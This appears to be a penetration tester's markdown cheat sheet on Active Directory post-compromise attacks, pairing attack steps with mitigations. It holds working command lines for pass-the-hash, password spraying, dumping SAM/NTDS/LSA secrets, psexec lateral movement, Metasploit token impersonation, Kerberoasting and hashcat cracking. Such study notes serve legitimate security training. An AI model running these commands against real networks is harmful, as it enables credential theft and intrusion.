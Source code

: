 # Active Directory Post Compromise Attacks

---
## Pass the Hash/Password
---

> If able to crack password hash, or can dump SAM hashes, try to pass around network to check for access to other machines on network.

### use crackmapexec
- Pass the password
	- ` crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <pass>`

- Pass the hash
	- ` crackmapexec smb <ip>CIDR> -u <user> -H <hash> --local-auth`
- Dump sam, ntds, lsa
	- ` crackmapexec smb <ip/CIDER> -u<user> -p <pass> -d <domain> --sam/--ntds/--lsa`

#### Local vs Domain pass spraying
- pass spray local not domain as domain accounts will get locked out where local will not

---
## Move Laterally
---
- If lateral access is found, can use psexec.py to gain shell on new machine
	` psexec.py <domain>/<user>:<password>@<ip> `

- next use secrets.py to dump sam on new machine
	- `secretsdump.py <domain>/<user>:<password>@<ip>`

secrets.py dumps sam hashes, lsa secrets and DPAPI keys

#### NTLM hash can be passed, NTLMV2 cannot
SAM = NTLM hash
crack with hashcat
	- `hashcat -m 1000 hashfile.txt wordlist.txt -O `

---
## Pass Attack Mitigations
---

- Limit account reuse
	- avoid re-using local admin password
	- disable guest and administrator accounts
	- limit who is a local admin (least privilege)

- use strong passwords
	- longer the better
	- avoid common words
	
- privilege access management
	- check out/in sensitvie accounts
	- auto rotate passwords on check out/in
	- limits pass attacks as passwords is constantly rotated

---
## Token Impersonation
---

- What is Token
	- Temp keys to access system/network without needing creds
	- similar to a cookie for the web

- Two types
	- Delegate, created for logging into machine or using RDP
	- Impersonate, "non interactive" such as attaching network drive

### Attack steps
- start metasploit `msfconsole` then use psexec ` use exploit/windows/smb/psexec`
- set options in psexec module then hit run
- `load incognito` to attempt token impersonation
- `list_tokens -u` list available tokens
- `impersonate_token <token name>` use "\\\\" to escape backslash i.e. domain\\user for token name domain\user
- `rev2self` to revert to self after impersonation


#### Token impersonation mitigation
- Limit user/group token creation permissions
- account tiering and isolation
	- regular user account for day to day, admin account for specific needs on specific machines
		- i.e domain admin should only log in to domain controller and not local machines
- local admin restriction


---
## Kerberoasting
---

[kerberoasting info](https://medium.com/mitigation@Shorty420/kerberoasting-9108477279cc)

### attack steps
- Get SPNs, Dump Hash
	- `GetUserSPNs.py <domain/username:password> -dc-ip <ip of DC> -request`
- attempt crach hash with hashcat
	- `hashcat -m 13100 kerberoasthash.txt rockyou.txt`

#### Kerberoasting Mitigations
- strong passwords
- least privilege
	- don't make service accounts domain admins, and dont' give service accounts weak passwords

---
## GPP Attacks
---

### Group Policy Preferences
- metasploit smb_enum_gpp to check

